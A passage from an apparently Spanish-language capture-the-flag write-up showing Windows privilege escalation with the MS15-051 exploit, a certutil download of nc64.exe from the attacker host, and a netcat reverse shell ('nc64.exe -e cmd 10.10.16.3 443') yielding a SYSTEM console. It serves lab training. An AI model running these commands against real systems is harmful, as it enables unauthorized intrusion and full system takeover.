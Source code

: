 Para ejecutarlo, simplemte debemos pasarle un comando.


```cmd
.\ms15-051x64.exe "whoami"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 1760 created.
==============================
nt authority\system
PS C:\WIndows\Temp\Priv> 
```

Seguidamente para ganar acceso como `administrator`, descargaremos `ncat` versión `1.12`

* [https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/)

Una vez lo tengamos, proceremos a subir `nc64.exe` a la maquina victima.

```bash
❯ ls
 doexec.c   generic.h   getopt.c   getopt.h   hobbit.txt   license.txt   Makefile   nc.exe   nc64.exe   netcat.c   readme.txt
```

```cmd
certutil.exe -f -urlcache -split http://10.10.16.3/nc64.exe nc64.exe
****  Online  ****
  0000  ...
  b0d8
CertUtil: -URLCache command completed successfully.
```

Una vez subido el ejecutable, vamos a ejecutarlo de manera privilegiada usando el `exploit` y asi obtener una consola interactiva.

```cmd
    Directory: C:\Windows\Temp\Priv


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---         29/4/2023   7:04 ??      55296 ms15-051x64.exe                   
-a---         29/4/2023   7:15 ??      45272 nc64.exe                          


.\ms15-051x64.exe "C:\Windows\Temp\Priv\nc64.exe -e cmd 10.10.16.3 443"
```

Ejecutamos y recibimos la conexión como `nt authority\system`.


```bash
❯ rlwrap ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.9.
Ncat: Connection from 10.10.10.9:49361.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
nt authority\system

C:\Windows\Temp\Priv>
```
